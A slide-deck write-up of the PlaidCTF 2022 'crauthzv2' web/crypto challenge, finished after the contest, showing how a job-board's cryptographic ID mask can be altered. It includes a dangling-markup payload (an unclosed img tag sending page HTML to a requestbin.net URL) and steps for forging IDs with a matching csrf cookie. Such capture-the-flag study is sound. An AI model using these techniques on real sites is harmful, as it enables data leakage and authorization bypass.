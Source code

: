 ```yaml
---
marp: true
paginate: true
header: 'crauthzv2 PlaidCTF 2022'
footer: 'Dosenpfand'
---
```


# crauthzv2 PlaidCTF 2022

---

## Disclaimer
- Not solved during the CTF
- Challenge author published intended solution and parts of the source code

---

## Task Description
- Categories: web, crypto
- Link to web app (job board), no source code
- From the task description
    > [...] What if we used cryptography to do our permissions checks instead?
    > Hint: What control do you have over the values pointed to by the mask?
- From a job posting on the web app
    > [...] Share your resume on THE GAUNTLET with "jobs" for consideration. We'll scrape any images in your resume; [...]

---

### Analysis - CRID I
- Typical link:
    ```
    http://crauthz.chal.pwni.ng/view?id=crid%3ABZLBNnxQ92%2BcAS1SHrCQ5a86EJTMHkTRUIroXYWk080r
    ```
- Constantly changing
- Format: `url_encode("crid:" + base64_encode(data))`
- `data` always start `5` or `7`

---

### Analysis - CRID II
- Error when modifying CRID
- starting with 5:
    > Error: Invalid ID (with parsed mask ['user_id', 'purpose']) for user id "1158", csrf "f447f3c65b49aa05957aca523c1e1828", purpose "view"

- 7: `['user_id', 'csrf', 'purpose'])`
- 3: `['user_id', 'csrf']`
- 6: `['csrf', 'purpose']`

---

### Analysis - CRID III
- 1st byte of `crid` is `mask`
- Changing the mask and adapting the `csrf` cookie accordringly validates
- E.g. Change from `5` to `3` and set `csrf` cookie to user id.

---

### Analysis - Image Sharing
- Sharing an unclosed HTML `img` tag
    ```
    <img src="http://requestbin.net/r/5vn3gc7l?q=
    ```
- We get some HTML succeeding the tag
    ```
    <b>Internal listing - security engineer</b>
    (Job) by jobs
    <a href=/p/unpin_listing?listing_id=crid:Bc6Rl57Y3nU9CbKqnfoCruNP074GbEkkb0RapF1tmQ==
    &ret=crid:BwK08K/aJC4FC+b5LbL9eAi/47baWgNCkVU7uijNPSj0
    >Unpin</
    ```

---

### Solution I
1. Share resume with user `jobs` with unclosed image tag
2. Get an `unpin` URL for internal job listing
3. Modify its `crid`'s 1st byte from `5 = ['user_id', 'purpose']` to `6 = ['csrf', 'purpose']`
4. Use it to pin the listing: Request `/pin_listing?listing_id=crid%3A_MODIFIED_CRID_1` with cookie `csrf=pin_listing`

---

### Solution II
5. Pinned listing not viewable due to permission checks, but we have a `unpin` `crid` now
6. Change it from `5 = ['user_id', 'purpose']` to `['user_id', 'csrf']`
7.  Use it to share the listing with our user: Request `/share_listing?id=crid%3A_MODIFIED_CRID_2&other=our_user` with cookie `csrf=pin_listing`
8. View the internal listing, flag is in the comments

---

### References
- Writeup: TODO
- Intended solution: https://gist.github.com/mserrano/44031a01afb53f98536af17f6ba9eedd
